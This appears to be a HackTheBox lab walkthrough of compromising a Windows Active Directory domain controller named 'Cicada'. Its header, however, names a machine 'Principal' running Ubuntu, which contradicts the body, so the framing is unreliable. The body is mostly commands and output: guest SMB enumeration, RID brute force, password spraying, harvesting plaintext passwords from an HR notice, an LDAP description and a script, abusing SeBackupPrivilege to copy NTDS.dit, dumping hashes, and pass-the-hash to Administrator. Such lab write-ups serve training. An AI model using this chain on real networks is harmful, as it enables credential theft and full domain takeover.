

# HTB: Principal Walkthrough

---
## Machine Overview
- **Name:** Principal
- **OS:** Ubuntu 24.04 LTS
- **Difficulty:** Medium

Cicada is an easy-difficult Windows machine that focuses on beginner Active Directory enumeration and exploitation. In this machine, players will enumerate the domain, identify users, navigate shares, uncover plaintext passwords stored in files, execute a password spray, and use the SeBackupPrivilege to achieve full system compromise.

---

## Recon
## port scanning
```sh
❯ sudo nmap -sC -sV 10.129.7.197 -o nmap   
PORT     STATE SERVICE       VERSION  
53/tcp   open  domain        Simple DNS Plus  
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-01 16:09:07Z)  
135/tcp  open  msrpc         Microsoft Windows RPC  
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb, Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb  
| Not valid before: 2024-08-22T20:24:16  
|_Not valid after:  2025-08-22T20:24:16  
|_ssl-date: 2026-06-01T16:10:33+00:00; +7h00m15s from scanner time.  
445/tcp  open  microsoft-ds?  
464/tcp  open  kpasswd5?  
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb, Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb  
| Not valid before: 2024-08-22T20:24:16  
|_Not valid after:  2025-08-22T20:24:16  
|_ssl-date: 2026-06-01T16:10:34+00:00; +7h00m15s from scanner time.  
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb, Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb  
| Not valid before: 2024-08-22T20:24:16  
|_Not valid after:  2025-08-22T20:24:16  
|_ssl-date: 2026-06-01T16:10:33+00:00; +7h00m15s from scanner time.  
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb, Site: Default-First-Site-Name)  
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb  
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:CICADA-DC.cicada.htb  
| Not valid before: 2024-08-22T20:24:16  
|_Not valid after:  2025-08-22T20:24:16  
|_ssl-date: 2026-06-01T16:10:34+00:00; +7h00m15s from scanner time.  
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-server-header: Microsoft-HTTPAPI/2.0  
|_http-title: Not Found  
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
| smb2-time:    
|   date: 2026-06-01T16:09:55  
|_  start_date: N/A  
| smb2-security-mode:    
|   3.1.1:    
|_    Message signing enabled and required  
|_clock-skew: mean: 7h00m14s, deviation: 0s, median: 7h00m14s
```
There is a clock skew of 7hr which  is important for Kerberos authentication and must be synchronized when performing Kerberos-based attacks.

## smb enumeration
Since SMB is open, I first generated a hosts file to resolve the domain properly.
```sh
❯ nxc smb 10.129.7.197 --generate-hosts-file host  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
❯ cat host  
10.129.7.197     CICADA-DC.cicada.htb cicada.htb CICADA-DC  
❯ cat host | sudo tee -a /etc/hosts     
10.129.7.197     CICADA-DC.cicada.htb cicada.htb CICADA-DC
```

Now that DNS resolution is set, I tested SMB authentication using different identities since no credentials were available.

```sh
❯ nxc smb cicada.htb -u '' -p ''  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\:    
❯ nxc smb cicada.htb -u ',' -p ''  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\,: (Guest)  
❯ nxc smb cicada.htb -u 'guest' -p ''  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\guest:
❯ nxc smb cicada.htb -u 'DoesNotExist' -p ''  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\DoesNotExist: (Guest)
```

This indicates:

- Guest authentication is enabled
- Null sessions are allowed
- Username enumeration is possible due to SMB authentication fallback behaviour

### SMB share enumeration
```sh
❯ nxc smb cicada.htb -u 'guest' -p '' --shares  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\guest:    
SMB         10.129.7.197    445    CICADA-DC        [*] Enumerated shares  
SMB         10.129.7.197    445    CICADA-DC        Share           Permissions     Remark  
SMB         10.129.7.197    445    CICADA-DC        -----           -----------     ------  
SMB         10.129.7.197    445    CICADA-DC        ADMIN$                          Remote Admin  
SMB         10.129.7.197    445    CICADA-DC        C$                              Default share  
SMB         10.129.7.197    445    CICADA-DC        DEV                                
SMB         10.129.7.197    445    CICADA-DC        HR              READ               
SMB         10.129.7.197    445    CICADA-DC        IPC$            READ            Remote IPC  
SMB         10.129.7.197    445    CICADA-DC        NETLOGON                        Logon server share    
SMB         10.129.7.197    445    CICADA-DC        SYSVOL                          Logon server share
```
The `HR` share is readable, while `DEV` appears interesting but inaccessible at this stage.

### HR share enumeration
```sh
❯ smbclient -N //cicada.htb/HR  
Try "help" to get a list of possible commands.  
smb: \> ls  
 .                                   D        0  Thu Mar 14 15:29:09 2024  
 ..                                  D        0  Thu Mar 14 15:21:29 2024  
 Notice from HR.txt                  A     1266  Wed Aug 28 20:31:48 2024  
  
               4168447 blocks of size 4096. 481752 blocks available  
smb: \> get "Notice from HR.txt"  
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)  
smb: \> exit  
❯ cat "Notice from HR.txt"  
  
Dear new hire!  
  
Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.  
  
Your default password is: Cicada$M6Corpb*@Lp#nZp!8  
  
To change your password:  
  
1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.  
2. Once logged in, navigate to your account settings or profile settings section.  
3. Look for the option to change your password. This will be labeled as "Change Password".  
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.  
5. After changing your password, make sure to save your changes.  
  
Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.  
  
If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.  
  
Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!  
  
Best regards,  
Cicada Corp
```
This reveals a hardcoded default password, but no username is provided.
## Rid bruteforcing
To discover valid usernames, I performed RID enumeration.
```sh
❯ nxc smb cicada.htb -u 'guest' -p '' --rid-brute  
  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\guest:    
SMB         10.129.7.197    445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)  
SMB         10.129.7.197    445    CICADA-DC        501: CICADA\Guest (SidTypeUser)  
SMB         10.129.7.197    445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)  
SMB         10.129.7.197    445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)  
SMB         10.129.7.197    445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)  
SMB         10.129.7.197    445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)  
SMB         10.129.7.197    445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)  
SMB         10.129.7.197    445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)  
SMB         10.129.7.197    445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)  
SMB         10.129.7.197    445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)  
SMB         10.129.7.197    445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)  
SMB         10.129.7.197    445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)  
SMB         10.129.7.197    445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)  
SMB         10.129.7.197    445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)  
SMB         10.129.7.197    445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```
To extract only the usernames I used `awk`
```sh
❯ nxc smb cicada.htb -u guest -p '' --rid-brute | awk '/SidTypeUser/ {split($0,a,"\\\\"); split(a[2],b," "); print b[1]}'  
  
Administrator  
Guest  
krbtgt  
CICADA-DC$  
john.smoulder  
sarah.dantelia  
michael.wrightson  
david.orelious  
emily.oscars
```

## Password Spraying
Now that we have the users and a password,I did password spraying
```sh
❯ nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success  
  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.7.197    445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE    
SMB         10.129.7.197    445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE    
SMB         10.129.7.197    445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE    
SMB         10.129.7.197    445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE    
SMB         10.129.7.197    445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE    
SMB         10.129.7.197    445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE    
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8    
SMB         10.129.7.197    445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE    
SMB         10.129.7.197    445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE    
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\:Cicada$M6Corpb*@Lp#nZp!8 (Guest)
```
We get a hit on `michael.wrightson`
## SMB re-check with credentials
I tried the credentials with the `DEV` share but still had no access
```sh
❯ smbclient //cicada.htb/DEV -U 'michael.wrightson'  
Password for [WORKGROUP\michael.wrightson]:  
Try "help" to get a list of possible commands.  
smb: \> ls  
NT_STATUS_ACCESS_DENIED listing \*  
smb: \>
```

## BloodHound collection
I collected bloodhound loot since we can now authenticate to ldap
```sh
❯ nxc ldap cicada.htb -u 'michael.wrightson'  -p 'Cicada$M6Corpb*@Lp#nZp!8' --bloodhound --collection All --dns-server 10.129.7.197 -d cicada.htb  
LDAP        10.129.7.197    389    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb) (signing:None) (channel binding:Never)    
LDAP        10.129.7.197    389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8    
LDAP        10.129.7.197    389    CICADA-DC        Resolved collection methods: rdp, objectprops, group, trusts, container, dcom, localadmin, acl, session, psremote  
[14:06:54] ERROR    Unhandled exception in computer CICADA-DC.cicada.htb processing: The NETBIOS connection with the remote host timed out.                                                                                  computers.py:268  
LDAP        10.129.7.197    389    CICADA-DC        Done in 1M 31S  
LDAP        10.129.7.197    389    CICADA-DC        Compressing output into ~/.nxc/logs/CICADA-DC_10.129.7.197_2026-06-01_140517_bloodhound.zip  
❯ cp ~/.nxc/logs/CICADA-DC_10.129.7.197_2026-06-01_140517_bloodhound.zip .
```

Then uploaded them to bloodhound clie for further analysis.
## bloodhound analysis
BloodHound analysis did not reveal a direct escalation path.

This required pivoting to **manual LDAP enumeration**, especially non-standard attributes.

## LDAP enumeration
I prefer looking at fields like descriptions since bloodhound does not capture this info
```sh
❯ ldapsearch -x -H ldap://10.129.7.197 \  
 -D "michael.wrightson@cicada.htb" \  
 -w 'Cicada$M6Corpb*@Lp#nZp!8' \  
 -b "DC=cicada,DC=htb" \  
 "(&(objectClass=user)(description=*))" \  
 sAMAccountName description  
# extended LDIF  
#  
# LDAPv3  
# base <DC=cicada,DC=htb> with scope subtree  
# filter: (&(objectClass=user)(description=*))  
# requesting: sAMAccountName description    
#  
  
# Administrator, Users, cicada.htb  
dn: CN=Administrator,CN=Users,DC=cicada,DC=htb  
description: Built-in account for administering the computer/domain  
sAMAccountName: Administrator  
  
# Guest, Users, cicada.htb  
dn: CN=Guest,CN=Users,DC=cicada,DC=htb  
description: Built-in account for guest access to the computer/domain  
sAMAccountName: Guest  
  
# krbtgt, Users, cicada.htb  
dn: CN=krbtgt,CN=Users,DC=cicada,DC=htb  
description: Key Distribution Center Service Account  
sAMAccountName: krbtgt  
  
# David Orelious, Users, cicada.htb  
dn: CN=David Orelious,CN=Users,DC=cicada,DC=htb  
description: Just in case I forget my password is aRt$Lp#7t*VQ!3  
sAMAccountName: david.orelious  
```

Key finding:

```
dn: CN=David Orelious,CN=Users,DC=cicada,DC=htb  description: Just in case I forget my password is aRt$Lp#7t*VQ!3  
```

This reveals **credentials hidden in LDAP description fields**, providing a new user.
## DEV share enumeration
lets see if he can access other shares
```sh
❯ nxc smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares  
  
SMB         10.129.7.197    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.7.197    445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3    
SMB         10.129.7.197    445    CICADA-DC        [*] Enumerated shares  
SMB         10.129.7.197    445    CICADA-DC        Share           Permissions     Remark  
SMB         10.129.7.197    445    CICADA-DC        -----           -----------     ------  
SMB         10.129.7.197    445    CICADA-DC        ADMIN$                          Remote Admin  
SMB         10.129.7.197    445    CICADA-DC        C$                              Default share  
SMB         10.129.7.197    445    CICADA-DC        DEV             READ               
SMB         10.129.7.197    445    CICADA-DC        HR              READ               
SMB         10.129.7.197    445    CICADA-DC        IPC$            READ            Remote IPC  
SMB         10.129.7.197    445    CICADA-DC        NETLOGON        READ            Logon server share    
SMB         10.129.7.197    445    CICADA-DC        SYSVOL          READ            Logon server share
```

David has read access to `DEV` share so I looked what it contains using smbclient
```sh
❯ smbclient //cicada.htb/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'  
  
       Try "help" to get a list of possible commands.  
smb: \> ls  
 .                                   D        0  Thu Mar 14 15:31:39 2024  
 ..                                  D        0  Thu Mar 14 15:21:29 2024  
 Backup_script.ps1                   A      601  Wed Aug 28 20:28:22 2024  
  
               4168447 blocks of size 4096. 475368 blocks available  
smb: \> get Backup_script.ps1  
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)  
smb: \> exit  
❯ cat Backup_script.ps1  
  
$sourceDirectory = "C:\smb"  
$destinationDirectory = "D:\Backup"  
  
$username = "emily.oscars"  
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force  
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)  
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"  
$backupFileName = "smb_backup_$dateStamp.zip"  
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName  
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath  
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```
The share contains a backup script that backs up smb share and saves it to `D:\Backup`. This script has `emily.oscars`'s username and password `Q!3@Lp#M6b*7t*Vt` hardcoded in the script. 
From bloodhound, emily.oscars belongs to Remote Management Users  group and since we have his password, we can login using `evil-winrm`

## Initial access (WinRM)
Before logging in, I synced time due to Kerberos skew:
```sh
sudo ntpdate 10.129.7.197
```

WinRM access:
```sh
❯ evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'  
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/fragment.rb:35: warning: redefining 'object_id' may cause serious problems  
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/message_fragmenter.rb:29: warning: redefining 'object_id' may cause serious problems  
                                          
Evil-WinRM shell v3.9  
                                          
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline  
                                          
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion  
                                          
Info: Establishing connection to remote endpoint  
/usr/lib/ruby/gems/3.4.0/gems/rexml-3.4.4/lib/rexml/xpath.rb:67: warning: REXML::XPath.each, REXML::XPath.first, REXML::XPath.match dropped support for nodeset...  
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd ..\desktop  
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\desktop> dir  
  
  
   Directory: C:\Users\emily.oscars.CICADA\desktop  
  
  
Mode                 LastWriteTime         Length Name  
----                 -------------         ------ ----  
-ar---          6/1/2026   9:06 AM             34 user.txt  
  
  
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\desktop> type user.txt  
4006ab07a4cceb3cf25881130b33dff9
```
We get user
## Privileges escalation
Now that I have a shell on the dc, i checked what privileges I had
```powershell
PS C:\Users\emily.oscars.CICADA\desktop> whoami /all  
  
USER INFORMATION  
----------------  
  
User Name           SID  
=================== =============================================  
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601  
  
  
GROUP INFORMATION  
-----------------  
  
Group Name                                 Type             SID          Attributes  
========================================== ================ ============ ==================================================  
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group  
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group  
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group  
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group  
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group  
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group  
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group  
Mandatory Label\High Mandatory Level       Label            S-1-16-12288  
  
  
PRIVILEGES INFORMATION  
----------------------  
  
Privilege Name                Description                    State  
============================= ============================== =======  
SeBackupPrivilege             Back up files and directories  Enabled  
SeRestorePrivilege            Restore files and directories  Enabled  
SeShutdownPrivilege           Shut down the system           Enabled  
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled  
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled  
  
  
USER CLAIMS INFORMATION  
-----------------------  
  
User claims unknown.  
  
Kerberos support for Dynamic Access Control on this device has been disabled.
```
From this we can see that the user is a member of backup operators which has the **_SeBackupPrivilege_** and **_SeRestorePrivilege_** enabled as part of its privileges.
Since we are a member of the Backup Operators group, we are authorized to create system backups. We will use this to our advantage by creating a backup that includes the NTDS.dit file, from which we can extract the hashes for later use to escalate our privileges.

## Shadow copy + NTDS extraction
Create a shadowcopy script 
```powershell
$script = "set context persistent nowriters`r`nadd volume c: alias pwn`r`ncreate`r`nexpose %pwn% z:`r`n"
Set-Content -Path C:\Windows\Temp\shadow.dsh -Value $script -Encoding Ascii

```

Execute the script using `diskshadow`
```powershell
PS C:\Windows\Temp> diskshadow /s C:\Windows\Temp\shadow.dsh  
   
Microsoft DiskShadow version 1.0  
Copyright (C) 2013 Microsoft Corporation  
On computer:  CICADA-DC,  6/1/2026 7:11:36 PM  
  
-> set context persistent nowriters  
-> add volume c: alias pwn  
-> create  
Alias pwn for shadow ID {6a73e042-3d14-46c8-a86f-48cbc452d214} set as environment variable.  
Alias VSS_SHADOW_SET for shadow set ID {ffee87b7-4e39-400b-beb2-9b3f8c6ca726} set as environment variable.  
  
Querying all shadow copies with the shadow copy set ID {ffee87b7-4e39-400b-beb2-9b3f8c6ca726}  
  
       * Shadow copy ID = {6a73e042-3d14-46c8-a86f-48cbc452d214}               %pwn%  
               - Shadow copy set: {ffee87b7-4e39-400b-beb2-9b3f8c6ca726}       %VSS_SHADOW_SET%  
               - Original count of shadow copies = 1  
               - Original volume name: \\?\Volume{fcebaf9b-0000-0000-0000-500600000000}\ [C:\]  
               - Creation time: 6/1/2026 7:11:37 PM  
               - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1  
               - Originating machine: CICADA-DC.cicada.htb  
               - Service machine: CICADA-DC.cicada.htb  
               - Not exposed  
               - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}  
               - Attributes:  No_Auto_Release Persistent No_Writers Differential  
  
Number of shadow copies listed: 1  
-> expose %pwn% z:  
-> %pwn% = {6a73e042-3d14-46c8-a86f-48cbc452d214}  
The shadow copy was successfully exposed as z:\.  
->  
->
```

Copy the NTDS.dit file  to C:\ drive
```powershell
PS C:\Windows\Temp> robocopy /b z:\Windows\NTDS\ C:\Windows\Temp\ ntds.dit  
```

Dump the SYSTEM hive and download both dit and SYSTEM files to extract hashes locally
```powershell
reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM

download C:\Windows\Temp\ntds.dit 
download C:\Windows\Temp\SYSTEM
```

Extract the hashes 
```sh
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL  
```

We get the Administrators hash

## Domain Admin access
Now that we have admin has we can perform pass the hash attack and get access to Admins shell without needing the password
```sh
evil-winrm -i cicada.htb -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'  
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/fragment.rb:35: warning: redefining 'object_id' may cause serious problems  
/usr/lib/ruby/gems/3.4.0/gems/winrm-2.3.9/lib/winrm/psrp/message_fragmenter.rb:29: warning: redefining 'object_id' may cause serious problems  
                                          
Evil-WinRM shell v3.9  
                                          
Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline  
                                          
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion  
                                          
Info: Establishing connection to remote endpoint  
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami  
cicada\administrator  
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt  
3c257b5f75f294dc6e9bdf9a2725c619  
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## Key Takeaways

- Anonymous SMB access can still expose critical information
- RID brute force is powerful for user enumeration when LDAP is restricted
- Password reuse/default credentials remain a major AD weakness
- LDAP user attributes (like `description`) should never be ignored
- SeBackupPrivilege is effectively domain compromise if abused correctly

## Attack Path

```
SMB Guest Access  
↓  
HR Share → Password Leak  
↓  
RID Brute Force → User List  
↓  
Password Spray → michael.wrightson  
↓  
LDAP Enum → david.orelious creds  
↓  
DEV Share → Backup Script (Emily creds)  
↓  
WinRM Access  
↓  
SeBackupPrivilege Abuse  
↓  
NTDS.dit Dump  
↓  
Domain Admin Hash → Pass-the-Hash  
↓  
Administrator Access
```

